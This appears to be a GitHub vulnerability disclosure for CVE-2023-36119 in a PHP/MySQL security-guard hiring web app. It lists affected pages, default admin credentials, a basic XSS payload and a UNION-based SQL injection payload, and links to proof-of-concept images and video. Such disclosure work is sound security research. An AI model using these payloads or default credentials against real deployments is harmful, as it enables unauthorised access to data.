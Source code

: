# Online Security Guard Hiring System
+ version 1.0
+ vendors : [Online Security Guards Hiring System using PHP and MySQL](https://phpgurukul.com/online-security-guards-hiring-system-using-php-and-mysql/)
+ Software Link: https://phpgurukul.com/projects/Online-Security-Guard-Hiring-System_PHP.zip
+ Tested on: Windows 10 + XAMPP
+ Credential for admin panel :
  + Username: admin
  + Password: Test@123
+ CVE ID: CVE-2023-36119
+ CVSS 3.1: `AV:L/AC:H/PR:L/UI:R/S:U/C:L/I:L/A:L/E:F/RL:W/RC:R/CR:H/IR:M/AR:M/MAV:L/MAC:H/MPR:L/MUI:R/MS:U/MC:L/MI:L/MA:L`
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/101f9244-d698-4f4c-99ab-da20b6f08e05)

**Affecr URL**
+ XSS
  + http://localhost/osghs/admin/admin-profile.php --> Admin Name
  + http://localhost/osghs/admin/search.php --> Search Booking
  + http://localhost/osghs/search-request.php -->  Search Booking
  + http://localhost/osghs/admin/view-booking-detail.php?bookingid=XXX 

payload -> <script>alert(1)</script> 

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/44e50c20-6d7f-454e-86ef-13814460ad2b)
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/eb1b3b57-ba6e-4d7a-bccc-ad90a017e36a)
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/340d324d-ee0a-4119-b4bf-dd0824ec0189)

+ SQL injection

payload -> ' UNION SELECT NULL,NULL,NULL--

+ http://localhost/osghs/admin/search.php

+ POC
  
https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/667cad95-bf9d-4636-9d7b-2145e1a68963

